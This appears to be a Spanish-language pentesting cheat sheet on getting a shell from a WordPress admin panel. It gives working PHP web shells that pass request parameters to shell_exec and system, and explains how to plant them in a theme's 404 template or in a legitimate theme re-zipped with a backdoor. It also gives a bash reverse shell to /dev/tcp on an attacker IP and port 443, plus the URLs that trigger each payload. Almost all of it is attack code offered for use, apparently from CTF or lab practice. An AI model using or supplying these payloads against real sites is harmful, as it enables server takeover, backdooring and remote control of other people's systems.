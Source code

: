 ## Obtener una Shell en Wordpress

```bash 
1. Para obtener una shell en WordPress se puede lograr de diferentes maneras:

	1. Editar un 'tema' del panel de admin y escribir codigo 'PHP' para ejecutar comandos, debemos de saber la ruta en donde se encuentra instalado el tema, ya que ahi podremos ejecutar comandos '?cmd=whoami'
	2. Cargar un 'tema'  
	3. Podemos subir un 'Plugin' en formato .ZIP desde el panel de admin que contenga codigo 'PHP' con una revershell a nuestra IP, para que al momento de instalarlo nos regrese automaticamente la revershell a nuestra maquina de atacante
	4. Explotar una vulnerabilidad de un plugin y cargar una webshell
```

```bash 
Opcion 1. Editar cualquier tema 

1. Editar el tema y agregar en la parte de '404 Template' lo siguiente para ejecutar comandos:
	<?php 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	?>

o de la siguiente manera para obtener la ReverShell directa:

	<?php
	   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
	?>


2. En la siguiente URL se puede acceder al archivo: 
❯ http://IP/wp-content/themes/twentyfifteen/404.php?cmd=whoami       # Ejecutar un comando
	# URL-encodeamos la revershell y la colocamos en la url (bash -c 'bash -i >& /dev/tcp/IP/443 0>&1')

❯ http://IP/wp-content/themes/twentyfifteen/404.php                  # Llamar al archivo para obtener la ReverShell 
```

```bash 
Opcion 2. Cargar un tema 

1. Descargar un tema legitimo 
❯ https://es-mx.wordpress.org/themes/hestia/

2. Modificar el tema descomprimiendolo primero 
❯  unzip hestia.3.1.4.zip     # Descomprimimos el zip y obtenemos una carpeta llamada 'hestia'

3. Agregar a la carpeta 'hestia' un archivo llamado 'cmd.php' que contiene lo siguiente:
	<?php 
		system($_GET['cmd']);
	?>

4. Comprimir el archivo en formato .zip colocandole el mismo nombre y subirlo al WordPress
❯ zip -r hestia.3.1.4.zip hestia 

5. En la siguiente URL se puede acceder al tema subido y al archivo agregado: 
❯ http://IP/wp-content/themes/hestia/                         # Ruta para verificar el tema
❯ http://IP/wp-content/themes/hestia/cmd.php?cmd=whoami       # Ejecutar un comando 
	# URL-encodeamos la revershell y la colocamos en la url (bash -c 'bash -i >& /dev/tcp/IP/443 0>&1')
```
